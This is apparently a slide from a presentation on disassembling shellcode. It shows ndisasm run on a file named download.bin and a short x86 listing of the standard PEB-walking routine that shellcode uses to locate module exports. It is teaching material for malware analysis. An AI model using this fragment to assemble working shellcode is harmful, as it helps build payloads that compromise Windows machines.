

Disassemble shellcodes
C:\Users\Ionut\AppData\Local\nasm>ndisasm.exe -b 32 download.bin

00000000  33C9              xor ecx,ecx
00000002  648B4130          mov eax,[fs:ecx+0x30]
00000006  8B400C            mov eax,[eax+0xc]
00000009  8B7014            mov esi,[eax+0x14]
0000000C  AD                lodsd
0000000D  96                xchg eax,esi
0000000E  AD                lodsd
0000000F  8B5810            mov ebx,[eax+0x10]
00000012  8B533C            mov edx,[ebx+0x3c]
00000015  03D3              add edx,ebx
00000017  8B5278            mov edx,[edx+0x78]
0000001A  03D3              add edx,ebx
0000001C  8B7220            mov esi,[edx+0x20]
0000001F  03F3              add esi,ebx
00000021  33C9              xor ecx,ecx

..................................................
NASM: http://www.nasm.us/